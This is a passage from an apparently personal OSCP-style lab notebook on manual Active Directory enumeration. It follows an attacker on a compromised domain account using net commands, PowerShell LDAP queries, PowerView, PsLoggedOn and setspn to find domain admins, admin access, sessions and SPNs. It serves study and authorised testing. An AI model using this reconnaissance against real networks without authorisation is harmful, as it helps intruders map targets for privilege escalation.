

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Manual

A lot of these techniques were covered in the [enumeration section](../../privilege-escalation/enumeration/manual-enumeration.md) of Windows Privilege Escalation. Where possible that discussion will be linked instead of copied.

The techniques below will assume the attacker has access to a compromised account (`stephanie`) on the domain-connected machine `CLIENT75` (IP address `192.168.X.75`) . From here the attacker will do their enumeration.

## Enumeration Tools

Several tools exist for Active Directory enumeration. They will be described in more detail below in the relevant sections but a high-level overview of each is provided here.

* [**Net Commands**](https://learn.microsoft.com/en-US/troubleshoot/windows-server/networking/net-commands-on-operating-systems)**:** similar to enumerating local accounts and groups, net commands can be run against the domain with a /domain flag. Net Commands are installed by default on Windows machines and are thus a good place to start
* **PowerShell:** Through the use of the .NET classes (DirectoryServices in particular), PowerShell can be used as an AD enumeration tool
* **Sysinternals Tools:** some Sysinternals tools such as `PsLoggedOn` will be used to overcome shortcomings in other tools (PowerView) caused by Windows updates

## PowerShell

### Enumeration Overview

Some PowerShell cmdlets, such as [`Get-ADUser`](https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-aduser?view=windowsserver2022-ps), do exist for enumeration. However, these commands are part of the [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) PowerShell module which is part of [Remote Server Administration Tools](https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) (RSAT). RSAT is only installed on Domain Controllers by default, and is thus very rarely present on clients in a domain. To install them one must have Administrator privileges.

For the above reasons, the enumeration of AD via PowerShell will largely be done with LDAP queries. When a domain machine is looking for another machine, say a printer, it sends out LDAP queries to find that machine. Those queries can be used to develop a single script to do basic enumeration.

LDAP communication with AD is not always straight-forward; to simplify it a bit, this example will leverage an [Active Directory Service Interface](https://learn.microsoft.com/en-us/windows/win32/adsi/active-directory-service-interfaces-adsi) (ADSI). ADSIs are a set of interfaces built on [COM](https://learn.microsoft.com/en-us/windows/win32/com/com-objects-and-interfaces).

The ADSI [LDAP Provider](https://learn.microsoft.com/en-us/windows/win32/adsi/adsi-ldap-provider) implements a set of ADSI objects that support various ADSI interfaces. To access the LDAP provider, bind to any of the ADSI LDAP objects, using the LDAP ADsPath.

This approach requires that the following DLLs be installed on the machine: `Adsldp.dll`, `Adsldpc.dll`, `Adsmsext.dll`, and `Activeds.dll`.

The [System.DirectoryServices](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices?view=dotnet-plat-ext-8.0) namespace enables a significant part of Active Directory via PowerShell and .NET. Several different tools that leverage these capabilities have been built. The basic understanding of how they work is explained here.

Active Directory can be enumerated using LDAP queries. In PowerShell, a [`DirectorySearcher`](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directorysearcher?view=dotnet-plat-ext-8.0) object will be used to do the LDAP lookups.

#### ADsPath

To create the object the attacker will need the [ADsPath](https://learn.microsoft.com/en-us/windows/win32/adsi/ldap-adspath) to perform lookups. The Microsoft LDAP provider ADsPath uses the format:

```
LDAP://HostName[:PortNumber][/DistinguishedName]
```

* `HostName` can be a computer name, an IP address, or a domain name. A server name can also be specified in the binding string
* `PortNumber` specifies the port and is optional
  * Default for non-SSL connections is 389
  * Default with SSL is 636
* `DistinguishedName` specifies the distinguished name of a specific object. A distinguished name for a given object is guaranteed to be unique.

#### Finding the Primary Domain Controller

In the current example the `HostName` of the ADsPath could be set to `corp.com` as that would likely resolve to any domain controller in the domain. This may not be the most up-to-date DC though. Instead it would be preferable to find the Primary Domain Controller. In most modern scenarios that is actually the machine with the FSMO role of [PDC emulator](../#pdc-emulator-role).

The cmdlet [`GetCurrentDomain`](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectory.domain.getcurrentdomain?view=dotnet-plat-ext-8.0) can be used to get some information about the domain:

```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

The raw output for this command looks like this:

```powershell
PS C:\Users\stephanie> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()


Forest                  : corp.com
DomainControllers       : {DC1.corp.com}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : DC1.corp.com
RidRoleOwner            : DC1.corp.com
InfrastructureRoleOwner : DC1.corp.com
Name                    : corp.com
```

The `PdcRoleOwner` is the DC that holds the PDC emulator role. Note the `RidRoleOwner` and `InfrastructureRoleOwner` point to the holders of the [RID master](../#rid-master-role) and [Infrastructure master](../#infrastructure-master-role) roles respectively.

#### Getting the Domain Distinguished Name

Once the PDC is known, all that is left is to obtain the distinguished name (DN) of the domain. This can be obtained directly from ADSI with the command:

```powershell
([adsi]'').distinguishedName
```

When run on the machine it returns the domain's DN:

```powershell
PS C:\Users\stephanie> ([adsi]'').distinguishedName
DC=corp,DC=com
```

#### Querying LDAP

With the PDC and DN known they can be used to create a [`DirectoryEntry`](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directoryentry?view=dotnet-plat-ext-8.0) object, which can be used to create a  object, which can then be used to do the actual searching:

```powershell
$DirEntry = New-Object System.DirectoryServices.DirectoryEntry($AdsPathLDAP)
$DirSearcher = New-Object System.DirectoryServices.DirectorySearcher($DirEntry)
$DirSearcher.FindAll()
```

This will return every object in the domain which can be quite overwhelming.

#### Filtering the Search

The `DirectorySearcher` constructor can be called with a `filter` argument that sets a search filter for the object.

For example to search for only objects of the class group (i.e. AD groups), the filter added would be:

```
(objectclass=group)
```

This could be integrated into the above snippet as follows:

```powershell
$SearchQuery = "(objectclass=group)"
$DirEntry = New-Object System.DirectoryServices.DirectoryEntry($AdsPathLDAP)
$DirSearcher = New-Object System.DirectoryServices.DirectorySearcher($DirEntry, $SearchQuery)
$DirSearcher.FindAll()
```

While this was a simple example of filtering, this [page](https://confluence.atlassian.com/kb/how-to-write-ldap-search-filters-792496933.html) describes more in depth LDAP filters that can be created.

### Enumerate-AD

While working through this module I wrote a tool called [Enumerate-AD](https://github.com/alex-christine/OSCP\_Exercises/blob/main/Utilities/Tools/Enumerate-AD.psm1). It is designed to be imported as a module and the commands used on the fly.

### PowerView

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) is part of the inspiration for Enumerate-AD. It provides far more functionality and bits of it were stolen and put into Enumerate-AD.

The [documentation](https://powersploit.readthedocs.io/en/latest/Recon/) provides a complete list of all functions. Some of the more useful ones are listed here:

* `Get-DomainUser` return all users or specific user objects in AD
* `Get-Domain` returns the domain object for the current (or specified) domain
* `Get-DomainController` return the domain controllers for the current (or specified) domain
* `Get-Forest` returns the forest object for the current (or specified) forest
* `Get-DomainComputer` returns all computers or specific computer objects in AD
* `Get-DomainGroup` return all groups or specific group objects in AD
* `Get-DomainGroupMember` return the members of a specific domain group
* `Find-LocalAdminAccess` finds machines on the local domain where the current user has local administrator access
* `Get-NetSession` returns session information for the local (or a remote) machine
* `Get-NetLoggedon` returns users logged on the local (or a remote) machine

These functions are pretty self-explanatory and can be used to enumerate an AD environment.

#### Limitations

The PowerShell scripts/modules listed above both rely on some underlying Win32 API calls. As Microsoft becomes more security-conscious with Windows, changes may render these tools less effective.

For example, consider the `Get-NetSession` command in PowerView. Per the documentation, this cmdlet returns session information for a machine and as such can be used to check whether a the current user has access to a machine.

Under the hood this cmdlet relies on 2 Win32 API calls [`NetWkstaUserEnum`](https://learn.microsoft.com/en-us/windows/win32/api/lmwksta/nf-lmwksta-netwkstauserenum) and [`NetSessionEnum`](https://learn.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netsessionenum). The former requires administrative privileges, while the latter does not. However, Windows has undergone changes over the last couple of years, possibly making the discovery of logged in user enumeration more difficult.

For example, the `NetWkstaUserEnum` function takes a level parameter. There used to be 5 options:

<figure><figcaption><p>Old level settings</p></figcaption></figure>

`0` does not really provide any information. `1` and `2` require Administrator privileges. `10` and `502` could potentially be used but `502` also has some permissions restrictions. None of this really matters though because Windows has undergone some changes. For example, now the only level options availabe are `0` and `1`.

The permissions required to enumerate sessions with `NetSessionEnum` are defined in the `SrvsvcSessionInfo` registry key, which is located in the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity` hive.

In older Windows versions (which Microsoft does not specify), `Authenticated Users` were allowed to access the registry hive and obtain information from the `SrvsvcSessionInfo` key. However, following the _least privilege_ principle, regular domain users should not be able to acquire this information within the domain, which is likely part of the reason the permissions for the registry hive changed as well.

While the documentation from Microsoft is not clear when they made a change to the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity` registry hive, it appears to be around the release of version 16299, otherwise known as build 1709. It also seems to affect all Windows Server operating systems since Windows Server 2019 build 1809. For these reasons, due to permissions, `NetSessionEnum` will not be able to obtain this type of information on default Windows 11.

This reveals itself in the example enumeration if the user attempts to leverage the PowerView `Get-NetSession` cmdlet. Assume that as the user stephanie the attacker has managed to locate several machines on the domain (`client74`, `files04`, and `web04`) and would like to see if their current user (`stephanie`) has a session on any of them. Unfortunately running the command results in access denied errors on two of the machines:

```powershell
PS C:\Users\stephanie> Get-NetSession -ComputerName files04 -Verbose
VERBOSE: [Get-NetSession] Error: Access is denied

PS C:\Users\stephanie> Get-NetSession -ComputerName web04 -Verbose
VERBOSE: [Get-NetSession] Error: Access is denied
```

It seems stephanie has Administrator access on client74 as discovered here:

```powershell
PS C:\Users\stephanie> Find-LocalAdminAccess
client74.corp.com
```

For this reason the attacker might suspect the Get-NetSession cmdlet would work on this machine. While the output is not an access denied message it also does not look right:

```powershell
PS C:\Users\stephanie> Get-NetSession -ComputerName client74

CName        : \\192.168.50.75
UserName     : stephanie
Time         : 8
IdleTime     : 0
ComputerName : client74
```

Recall that this enumeration is taking place from a machine called `CLIENT75` and its IP address is `192.168.X.75`. It seems the output from this command has the attacker's own `CLIENT75` machine's IP in the `CName` output field, and not the expected `192.168.X.74` IP of CLIENT74.

For this reason the output must be ignored as it is invalid. Unfortunately this will become more common as systems get upgraded past the point where Microsoft made changes to its registry hive permissions, rendering `Get-NetSession` less and less useful over time.

## Domain Users

### All Users in Domain

#### Net Command

In a similar manner to how `net user` can be used to list all [local accounts](../../privilege-escalation/enumeration/manual-enumeration.md#local-users), the `/domain` flag can be added to list all domain users:

```sh
net user /domain
```

* `/domain` runs the command against a domain controller as opposed to locally

When run in the example scenario the output reveals several domain accounts:co

```shell-session
C:\Users\stephanie>net user /domain
The request will be processed at a domain controller for domain corp.com.


User accounts for \\DC1.corp.com

-------------------------------------------------------------------------------
Administrator            dave                     Guest
iis_service              jeff                     jeffadmin
jen                      krbtgt                   pete
stephanie
The command completed successfully.
```

Just judging by names, the `jeffadmin` account could perhaps be worth exploring.

#### PowerShell

[Enumerate-AD](manual.md#enumerate-a-d) offers the capability to list all users with the command:

```powershell
Get-ADUser
```

The output looks similar like this:

```powershell
PS C:\Users\stephanie> Get-ADUser


PrimaryGroupID                : 513
CountryCode                   : 0
UAC                           : 66048
CodePage                      : 0
MsDs_SupportedEncryptionTypes : -1
LogonCount                    : 564
FailedLogonCount              : 0
LastLogon                     : 3/2/2024 5:33:36 PM
LastDomainLogon               : 3/2/2024 5:33:11 PM
LastFailedLogon               : 3/1/2023 3:18:15 AM
LastPasswordChange            : 8/16/2022 5:27:22 PM
Lockout                       : 1/1/0001 12:00:00 AM
AccountExpires                : 1/1/0001 12:00:00 AM
ServicePrincipalNames         : {}
SamAccountName                : Administrator
SamAccountType                : SAM_NORMAL_USER_ACCOUNT
MemberOf                      : {CN=Group Policy Creator Owners,CN=Users,DC=corp,DC=com, CN=Domain Admins,CN=Users,DC=corp,DC=com, CN=Enterprise Admins,CN=Users,DC=corp,DC=com, CN=Schema Admins,CN=Users,DC=corp,DC=com...}
Name                          : Administrator
Description                   : Built-in account for administering the computer/domain
CN                            : Administrator
GUID                          : 001059E5-0D08C444-89C8B065-74A14D85
SID                           : S-1-5-0-0-0-0-0-5-21-0-0-0-30-221-116-118-49-27-70-39-209-101-53-106-244-1-0-0
DistinguishedName             : CN=Administrator,CN=Users,DC=corp,DC=com
AdsPath                       : LDAP://DC1.corp.com/CN=Administrator,CN=Users,DC=corp,DC=com
ObjectCategory                : CN=Person,CN=Schema,CN=Configuration,DC=corp,DC=com
ObjectClass                   : {top, person, organizationalPerson, user}
IsCriticalSystemObject        : True
InstanceType                  : 4
WhenCreated                   : 9/2/2022 11:08:27 PM
CreationTime                  : 1/1/0001 12:00:00 AM
UsnCreated                    : 8196
WhenLastChanged               : 3/3/2024 1:33:11 AM
UsnChanged                    : 557163
AdminCount                    : 1
SystemFlags                   : -1

...
```

A user can be searched by adding their username to the command:

```powershell
Get-ADUser "user"
```

PowerView offers the command:

```powershell
Get-DomainUser
```

### User Group Membership

#### Net Command

Also similar to how [group membership](../../privilege-escalation/enumeration/manual-enumeration.md#group-membership) is listed, a specific user can be investigated with the `net user` command (again using the flag):

```
net user <username> /domain
```

For example, to check the group membership of the `jeffadmin` account found in the section [above](manual.md#domain-users):

```shell-session
C:\Users\stephanie>net user jeffadmin /domain
The request will be processed at a domain controller for domain corp.com.

User name                    jeffadmin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/2/2022 3:26:48 PM
Password expires             Never
Password changeable          9/3/2022 3:26:48 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/8/2024 3:47:01 AM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

Note that based on the output `jeffadmin` is a `Domain Admin` for `corp.com`.

#### PowerShell

The `.MemberOf` property of an [Enumerate-AD](manual.md#enumerate-a-d) `[ADUser]` object is a list of group distinguished names. To get a specific user's group membership the command would be:

```powershell
(Get-ADUser "username").MemberOf
```

This will output some `[LdifItem]` objects the `.Text` property of which is the whole Distinguished Name:

```powershell
PS C:\Users\stephanie> (Get-ADUser "jeffadmin").MemberOf | Select Text

Text
----
CN=Domain Admins,CN=Users,DC=corp,DC=com
CN=Administrators,CN=Builtin,DC=corp,DC=com
```

If more info is desired this can be searched with the `Get-ADGroup` cmdlet as shown below:


```powershell
(Get-ADUser "username").MemberOf | ForEach-Object { $_.ToString() | Get-ADGroup }
```


The output for this is the `[ADGroup]` representations of each group:

```powershell
PS C:\Users\stephanie> (Get-ADUser "jeffadmin").MemberOf | ForEach-Object { $_.ToString() | Get-ADGroup }

SamAccountName         : Domain Admins
SamAccountType         : SAM_GROUP_OBJECT
MemberOf               : {CN=Denied RODC Password Replication Group,CN=Users,DC=corp,DC=com, CN=Administrators,CN=Builtin,DC=corp,DC=com}
Name                   : Domain Admins
Description            : Designated administrators of the domain
CN                     : Domain Admins
GUID                   : C0D90EF9-C46D5F48-922C59E1-9F84CC90
SID                    : S-1-5-0-0-0-0-0-5-21-0-0-0-30-221-116-118-49-27-70-39-209-101-53-106-0-2-0-0
DistinguishedName      : CN=Domain Admins,CN=Users,DC=corp,DC=com
...

SamAccountName         : Administrators
SamAccountType         : SAM_ALIAS_OBJECT
MemberOf               : {}
Name                   : Administrators
Description            : Administrators have complete and unrestricted access to the computer/domain
CN                     : Administrators
GUID                   : 583566AF-58E40949-95C3843A-1C90DC36
SID                    : S-1-2-0-0-0-0-0-5-32-0-0-0-32-2-0-0
...
```

For PowerView, the property is also called .memberof but it is the text representation of the Distinguished Name and can just be piped directly into the Get-DomainGroup command:

```powershell
Get-DomainUser | Select name,memberof
```

### User Privileges

User privilege enumeration is covered [here](../../privilege-escalation/enumeration/manual-enumeration.md#privileges) but the command is:

```sh
whoami /priv
```

### User Sessions

It can be important to understand which machines a user has a session on.

#### PsLoggedOn

[`PsLoggedOn`](https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon) is an applet that displays both the locally logged on users and users logged on via resources for either the local computer, or a remote one. If a user name is specified instead of a computer, `PsLoggedOn` searches the computers in the network neighborhood and reports if the user is currently logged on.

The documentation states that PsLoggedOn will enumerate the registry keys under `HKEY_USERS` to retrieve the _security identifiers_ (SID) of logged-in users and convert the SIDs to usernames. PsLoggedOn will also use the `NetSessionEnum` API to see who is logged on to the computer via resource shares.

One limitation, however, is that `PsLoggedOn` _relies on the **Remote Registry** service_ in order to scan the associated key. The Remote Registry service _has not been enabled by default on Windows workstations since Windows 8_, but system administrators may enable it for various administrative tasks, for backwards compatibility, or for installing monitoring/deployment tools, scripts, agents, etc.

#### Example

As seen [earlier](manual.md#get-netsession), PowerView's `Get-NetSession` cmdlet relies on Win32 API calls that are becoming less useful with changes to the registry hive. Fortunately, PsLoggedOn does not suffer from this problem and can still be used to enumerate sessions in a network as long as Remote Registry is active.

Once the attacker transfers `PsLoggedOn.exe` to the victim machine they can use it to enumerate machines starting with the local machine:

```powershell
C:\Users\stephanie>.\PsLoggedOn.exe

PsLoggedon v1.35 - See who's logged on
Copyright (C) 2000-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Users logged on locally:
     <unknown time>             CORP\dave
     3/1/2024 12:15:17 PM       CORP\stephanie

Users logged on via resource shares:
     3/1/2024 12:17:00 PM       CORP\stephanie
```

From here the attacker can move to remote machines by supplying a computer name with the command:

```
C:\Users\stephanie>.\PsLoggedOn.exe \\files04

PsLoggedon v1.35 - See who's logged on
Copyright (C) 2000-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Users logged on locally:
     <unknown time>             CORP\jeff
Unable to query resource logons

C:\Users\stephanie>.\PsLoggedOn.exe \\client74

PsLoggedon v1.35 - See who's logged on
Copyright (C) 2000-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Users logged on locally:
     <unknown time>             CORP\jeffadmin

Users logged on via resource shares:
     3/1/2024 12:17:00 PM       CORP\stephanie
```

## Domain Groups

### All Groups in Domain

#### Net Command

All configured groups within a domain can be listed with the net group command:

```sh
net group /domain
```

* The `group` sub-command may only be run against a domain controller (i.e. with the `/domain` flag)
* The `localgroup` sub-command can be used to list local groups as seen [here](../../privilege-escalation/enumeration/manual-enumeration.md#net-command)

All groups in the example `corp.com` domain are shown with this command:

```shell-session
C:\Users\stephanie>net group /domain
The request will be processed at a domain controller for domain corp.com.


Group Accounts for \\DC1.corp.com

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*Debug
*Development Department
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Management Department
*Protected Users
*Read-only Domain Controllers
*Sales Department
*Schema Admins
The command completed successfully.
```

#### PowerShell

The [Enumerate-AD](manual.md#enumerate-a-d) command to output all groups is:

```powershell
Get-ADGroup
```

Groups of a specific name can also be searched with:

```powershell
Get-ADGroup "name"
```

The group command.s output looks like:

```powershell
PS C:\Users\stephanie> Get-ADGroup "Domain Admins"


Members                : {CN=jeffadmin,CN=Users,DC=corp,DC=com, CN=Administrator,CN=Users,DC=corp,DC=com}
SamAccountName         : Domain Admins
SamAccountType         : SAM_GROUP_OBJECT
MemberOf               : {CN=Denied RODC Password Replication Group,CN=Users,DC=corp,DC=com, CN=Administrators,CN=Builtin,DC=corp,DC=com}
Name                   : Domain Admins
Description            : Designated administrators of the domain
CN                     : Domain Admins
GUID                   : C0D90EF9-C46D5F48-922C59E1-9F84CC90
SID                    : S-1-5-0-0-0-0-0-5-21-0-0-0-30-221-116-118-49-27-70-39-209-101-53-106-0-2-0-0
DistinguishedName      : CN=Domain Admins,CN=Users,DC=corp,DC=com
AdsPath                : LDAP://DC1.corp.com/CN=Domain Admins,CN=Users,DC=corp,DC=com
ObjectCategory         : CN=Group,CN=Schema,CN=Configuration,DC=corp,DC=com
ObjectClass            : {top, group}
IsCriticalSystemObject : True
InstanceType           : 4
WhenCreated            : 9/2/2022 11:10:48 PM
CreationTime           : 1/1/0001 12:00:00 AM
UsnCreated             : 12345
WhenLastChanged        : 9/13/2022 7:13:07 AM
UsnChanged             : 30458
AdminCount             : 1
SystemFlags            : -1
```

The [PowerView](manual.md#powerview) equivalent is the `Get-DomainGroup` cmdlet.

### Group Members

#### Net Command

The group sub-command can also be used to list members of a specific group with the command structure:

```sh
net group <group_name> /domain
```

* `<group_name>` may be placed inside quotation marks if the name has a space

For example to see all members of the Domain Admins group for corp.com the command and output would be:

```shell-session
C:\Users\stephanie>net group "Domain Admins" /domain
The request will be processed at a domain controller for domain corp.com.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            jeffadmin
The command completed successfully.
```

#### PowerShell

The `.Members` property of an [Enumerate-AD](manual.md#enumerate-a-d) `[ADGroup]` object is a list of group distinguished names. To get a specific user's group membership the command would be:

```powershell
(Get-ADGroup "name").Members
```

This will output some `[LdifItem]` objects the `.Text` property of which is the whole Distinguished Name:

```powershell
PS C:\Users\stephanie> (Get-ADGroup "Domain Admins").Members | Select Text

Text
----
CN=jeffadmin,CN=Users,DC=corp,DC=com
CN=Administrator,CN=Users,DC=corp,DC=com
```

If information about each user is desired this output can be pipelined to the `Get-ADUser` cmdlet:


```powershell
(Get-ADGroup "name").Members | ForEach-Object { $_.ToString() | Get-ADUser }
```


This would look like:

```powershell
PS C:\Users\stephanie> (Get-ADGroup "Domain Admins").Members | ForEach-Object { $_.ToString() | Get-ADUser }

...
ServicePrincipalNames         : {}
SamAccountName                : jeffadmin
SamAccountType                : SAM_NORMAL_USER_ACCOUNT
MemberOf                      : {CN=Domain Admins,CN=Users,DC=corp,DC=com, CN=Administrators,CN=Builtin,DC=corp,DC=com}
Name                          : jeffadmin
Description                   :
CN                            : jeffadmin
GUID                          : 0EABAD9E-00F72C4C-A13570D1-8BAC21A3
SID                           : S-1-5-0-0-0-0-0-5-21-0-0-0-30-221-116-118-49-27-70-39-209-101-53-106-82-4-0-0
...

...
SamAccountName                : Administrator
SamAccountType                : SAM_NORMAL_USER_ACCOUNT
MemberOf                      : {CN=Group Policy Creator Owners,CN=Users,DC=corp,DC=com, CN=Domain Admins,CN=Users,DC=corp,DC=com, CN=Enterprise Admins,CN=Users,DC=corp,DC=com, CN=Schema Admins,CN=Users,DC=corp,DC=com...}
Name                          : Administrator
Description                   : Built-in account for administering the computer/domain
CN                            : Administrator
GUID                          : 001059E5-0D08C444-89C8B065-74A14D85
SID                           : S-1-5-0-0-0-0-0-5-21-0-0-0-30-221-116-118-49-27-70-39-209-101-53-106-244-1-0-0
DistinguishedName             : CN=Administrator,CN=Users,DC=corp,DC=com
AdsPath                       : LDAP://DC1.corp.com/CN=Administrator,CN=Users,DC=corp,DC=com
...
```

PowerView offers similar functionality with the `.member` property of `Get-DomainGroup` cmdlet output.

## Domain Machines

### All Machines in Domain

#### PowerShell

The [Enumerate-AD](manual.md#enumerate-a-d) command to output all computers is:

```powershell
Get-ADComputer
```

Groups of a specific name can also be searched with:

```powershell
Get-ADComputer "name"
```

The machine command's output looks like:

```powershell
PS C:\Users\stephanie> Get-ADComputer


DnsHostname                   : DC1.corp.com
OperatingSystem               : Windows Server 2022 Standard
OperatingSystemVersion        : 10.0 (20348)
LocalPolicyFlags              : 0
```

The [PowerView](manual.md#powerview) equivalent is the `Get-DomainComputer` cmdlet.

### Operating Systems

#### PowerShell

The [Enumerate-AD](manual.md#enumerate-a-d) `ADComputer` object has `.OperatingSystem` and `.OperatingSystemVersion` properties that can be used to see operating system information:

```powershell
Get-ADComputer | Select Name,DnsHostname,OperatingSystem,OperatingSystemVersion
```

In the current example this would reveal several machines and different operating systems:

```powershell
PS C:\Users\stephanie> Get-ADComputer | Select Name,DnsHostname,OperatingSystem,OperatingSystemVersion

Name     DnsHostname       OperatingSystem              OperatingSystemVersion
----     -----------       ---------------              ----------------------
DC1      DC1.corp.com      Windows Server 2022 Standard 10.0 (20348)
web04    web04.corp.com    Windows Server 2022 Standard 10.0 (20348)
files04  FILES04.corp.com  Windows Server 2022 Standard 10.0 (20348)
client74 client74.corp.com Windows 11 Enterprise        10.0 (22000)
client75 client75.corp.com Windows 11 Enterprise        10.0 (22000)
client76 CLIENT76.corp.com Windows 10 Pro               10.0 (16299)
```

In the other direction, the `Get-ADComputer` cmdlet can be run with an operating system filter:

```powershell
Get-ADComputer -OS "<operating_system>"
```

For example to search the domain for Windows 11 Enterprise machines:

```powershell
PS C:\Users\stephanie> Get-ADComputer -OS "Windows 11 Enterprise" | Select Name,DnsHostname,OperatingSystem,OperatingSystemVersion

Name     DnsHostname       OperatingSystem       OperatingSystemVersion
----     -----------       ---------------       ----------------------
client74 client74.corp.com Windows 11 Enterprise 10.0 (22000)
client75 client75.corp.com Windows 11 Enterprise 10.0 (22000)
```

The [PowerView](manual.md#powerview) `Get-DomainComputer` can also be run with a `-OperatingSystem` filter.

### Local Admin Access

#### PowerShell

[Enumerate-AD](manual.md#enumerate-a-d) offers the `Find-LocalAdminAccess` cmdlet which can be used to locate any machine on which the user has local Administrator access:

```powershell
Find-LocalAdminAccess
```

The output for this cmdlet is an array of (or single) `ADComputer` objects:

```powershell
PS C:\Users\stephanie> Find-LocalAdminAccess | Select Name,DnsHostname

Name     DnsHostname
----     -----------
client74 client74.corp.com
```

## Service Principal Names

### Background

Applications must be executed in the context of an operating system user. If a user launches an application, that user account defines the context. However, services launched by the system itself run in the context of a [Service Account](https://learn.microsoft.com/en-us/entra/architecture/service-accounts-on-premises).

In other words, isolated applications can use a set of predefined service accounts including:

* [**LocalSystem**](https://learn.microsoft.com/en-us/windows/win32/services/localsystem-account)**:** predefined local account used by the service control manager. It has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators` SIDs; these accounts have access to most system objects.
  * This account is not recognized by the security subsystem, so its name cannot be specified in a call to the `LookupAccountName` function.
  * The name of the account in all locales is `.\LocalSystem`. The name, `LocalSystem` or `ComputerName\LocalSystem` can also be used.
* [**LocalService**](https://learn.microsoft.com/en-us/windows/win32/services/localservice-account)**:** predefined local account used by the service control manager. It has minimum privileges on the local computer and presents anonymous credentials on the network.
* [**NetworkService**](https://learn.microsoft.com/en-us/windows/win32/services/networkservice-account)**:** predefined local account used by the service control manager. It has minimum privileges on the local computer and acts as the computer on the network.&#x20;
  * This account is not recognized by the security subsystem, so its name cannot be specified in a call to the `LookupAccountName` function.

For more complex applications, a domain user account may be used to provide the needed context while still maintaining access to resources inside the domain.

When applications like Exchange, MS SQL, or Internet Information Services (IIS) are integrated into AD, a unique service instance identifier, known as a [Service Principal Name](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) (SPN), associates a service to a specific service account in Active Directory.

Kerberos authentication uses SPNs to associate a service instance with a service sign-in account. Doing so allows a client application to request service authentication for an account even if the client doesn't have the account name.

### User's SPN

#### PowerShell

The [Enumerate-AD](manual.md#enumerate-a-d) `ADUser` and `ADComputer` classes both have a `.ServicePrincipalNames` property which contains a list of SPNs for a particular user/machine:

```powershell
(Get-ADComputer "name").ServicePrincipalNames
```

For example, to see the SPNs associated with web04 in the current example the command and output would be:

```powershell
PS C:\Users\stephanie> (Get-ADComputer web04).ServicePrincipalNames
HOST/web04.corp.com
HOST/web04
TERMSRV/WEB04
TERMSRV/web04.corp.com
WSMAN/web04
WSMAN/web04.corp.com
RestrictedKrbHost/WEB04
RestrictedKrbHost/web04.corp.com
```

[PowerView](manual.md#powerview)'s `Get-DomainComputer`'s output also has a `.serviceprinicpalname` property.

#### SetSPN

SetSPN (`setspn.exe`) is installed on Windows by default. It can be used to get the SPNs associated with a particular user with the command structure:

```
setspn -L <user>
```

For example to see the same user as in the PowerShell example above (web04) the command would be:

```shell-session
C:\Users\stephanie>setspn -L web04
Registered ServicePrincipalNames for CN=web04,CN=Computers,DC=corp,DC=com:
        HOST/web04.corp.com
        HOST/web04
        TERMSRV/WEB04
        TERMSRV/web04.corp.com
        WSMAN/web04
        WSMAN/web04.corp.com
        RestrictedKrbHost/WEB04
        RestrictedKrbHost/web04.corp.com
```

### All SPNs in Domain

#### PowerShell

Additionally, all SPNs in the domain can be listed with the command:

```powershell
